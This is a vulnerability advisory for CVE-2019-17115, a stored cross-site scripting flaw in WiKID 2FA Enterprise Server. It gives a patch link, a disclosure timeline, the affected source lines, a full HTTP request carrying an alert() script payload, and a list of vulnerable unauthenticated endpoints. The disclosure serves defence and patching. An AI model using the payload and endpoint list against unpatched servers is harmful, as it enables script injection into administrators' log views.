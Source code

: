 An unauthenticated stored cross-site scripting vulnerability, CVE-2019-17115, was identified on `WiKID Systems 2FA Enterprise Server` version `4.2.0-b2047` and earlier.  Submitting invalid values, through one of the affected parameters, will cause an error to be logged and stored as a `rendered_message`; the malicious value is retrieved and displayed through **Logs.jsp**.  The error messages are severe enough to be displayed by default. 

## Patch

* **4.2.0.b2053**: <https://downloads.wikidsystems.com/wikid-server-enterprise-4.2.0.b2053-1.noarch.rpm>

## Timeline

* 26 Sep 2019 - Issue discovered on `WiKID Systems 2FA Enterprise Server 4.2.0-b2032`
* 29 Sep 2019 - Issue disclosed to WiKID Systems
* 09 Oct 2019 - Issue confirmed by WiKID Systems, Patch released
* 16 Oct 2019 - Public Disclosure

## Description

Reviewing the source for **Logs.jsp** reveals that `rendered_message` is included, unsanitized, in a string that is constructed and displayed by **Logs.jsp**

~~~
394                 sb.append("<TD class=\"logTableCell\" style=\"white-space:normal;\">")
395                         .append("<a href='./Log.jsp?subString=" <r:b>+ rs.getString("rendered_message") +</r:b> "'>")
396                         .append("<img src='./images/toolFilter.png' alt='' border=\"0px\" width=\"15px\" height=\"15px\"/></a>")
397                         .append(rs.getString("rendered_message").replaceAll("<", "&lt;").replaceAll(">", "&gt;"))
398                         .append("</TD>");
~~~

A review of `wikid-server-enterprise-lib-4.2.0.jar` revealed several instance where parameters are read and passed to the logger.  One  example can be found in `com.wikidsystems.server.InitDevice5AES`:

~~~
70      try {
71        requestAction = Integer.parseInt(request.getParameter("a"));
72        logger.debug("Determined requested action: " + requestAction);
73      }
74      catch (NumberFormatException nfe) {
75        nfe.printStackTrace();
76        logger.error("IO error during registration -- recieved action: " + <r:b>request.getParameter("a")</r:b>, nfe);
77      } 
~~~

Submitting a non-integer value for <var>a</var> will trigger an error and drop into the `catch` block; the <var>a</var> parameter is then included, unsanitized, in the message passed to `logger`, with the severity of **error**.  The following request submits an HTML element as the value for <var>a</var>:

~~~
POST /wikid/servlet/com.wikidsystems.server.InitDevice4AES HTTP/1.1
Host: $RHOST
User-Agent: WiKID J2ME Token
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,*/*;q=0.8
Accept-Language: en-US,en;q=0.5
Accept-Encoding: gzip, deflate
DNT: 1
Payload: dGVzdA==
Connection: close
Upgrade-Insecure-Requests: 1=
Content-Type: application/x-www-form-urlencoded
Content-Length: 60

S=1&a=<r:var>test'><script>alert('InitDevice5AES - A')</script><!--</r:var>
~~~

The JavaScript is executed whenever `Log.jsp` is visited:

![](logs.png)

The JavaScript is then visible in source of the page:

~~~{.html}
<a href="./Log.jsp?subString=IO error during registration phase 1 -- recieved action: <r:var>test"><script>alert('InitDevice5AES - A')</script><!--</r:var>'><img src='./images/toolFilter.png' alt='' 
~~~

The following parameters and endpoints are known to be vulnerable and do not require authentication:

~~~
(1) H parameter
    - /wikid/servlet/com.wikidsystems.server.GetDomainHash
(2) S parameter 
    - /wikid/DomainData 
    - /wikid/PreRegisterLookup 
    - /wikid/PreRegister 
    - /wikid/InitDevice 
    - /wikid/servlet/InitDevice2S 
    - /wikid/servlet/InitDevice3S 
    - /servlet/com.wikidsystems.server.InitDevice2S 
    - /servlet/com.wikidsystems.server.InitDevice3S 
    - /servlet/com.wikidsystems.server.InitDevice4S 
    - /wikid/servlet/com.wikidsystems.server.InitDevice4AES 
    - /wikid/servlet/com.wikidsystems.server.InitDevice5AES 
(3) a parameter
    - /wikid/PreRegisterLookup 
    - /wikid/InitDevice 
    - /wikid/servlet/InitDevice2S 
    - /wikid/servlet/InitDevice3S 
    - /servlet/com.wikidsystems.server.InitDevice2S 
    - /servlet/com.wikidsystems.server.InitDevice3S 
    - /servlet/com.wikidsystems.server.InitDevice4S 
    - /wikid/servlet/com.wikidsystems.server.InitDevice4AES 
    - /wikid/servlet/com.wikidsystems.server.InitDevice5AES
~~~
